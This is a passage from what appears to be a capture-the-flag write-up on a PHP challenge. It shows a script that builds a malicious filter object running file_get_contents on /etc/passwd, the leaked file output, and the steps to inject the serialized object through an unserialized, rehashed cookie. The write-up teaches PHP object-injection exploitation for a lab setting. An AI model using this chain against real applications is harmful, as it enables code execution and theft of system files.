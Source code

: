 Now that we have a malicious filter, let's create a Post and test our hypothesis of calling a custom filter from the destructor.

```php
$ cat phpscript.php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\'/etc/passwd\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);
?>

$ php phpscript.php 

<!-- POST yay_flag: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
obo:x:1003:1003::/home/obo:/bin/bash
```

Bingo! Now we have a working malicious Post. What can we do with this? 

# Putting it all together

Let's go back to `cookies.php` in order to see where our custom Post can be used.

```php
  6     if ($hash !== $_COOKIE['custom_settings_hash']) {
  7       die("Why would you hack Section Chief Steve's site? :(");
  8     }
  9     // we only support one setting for now, but we might as well put this in.
 10     $settings_array = explode("\n", $custom_settings);
 11     $custom_settings = array();
 12     for ($i = 0; $i < count($settings_array); $i++) {
 13       $setting = $settings_array[$i];
 14       $setting = unserialize($setting);
 15       $custom_settings[] = $setting;
 16     }
```

After the hash passes its check, the decoded cookie is split on '\n'. For each value in the resulting array, it is unserialized and appended to the `$custom_settings` array. The fun feature of `unserialize()` deals with objects. Once an object is unserialized, it is essentially instantiated. Which means that when it goes out of scope, its destructor gets called. 

With this knowledge, our work flow is below:

* Create a Post class with a malicious filter that will `file_get_contents` a file (or instance the flag)
* Serialize the object
* Append the serialized object to the initial cookie data, being sure to seperate the object with a '\n'
* Rehash the new data to pass the hash check
* Watch the delicious flag fly our way
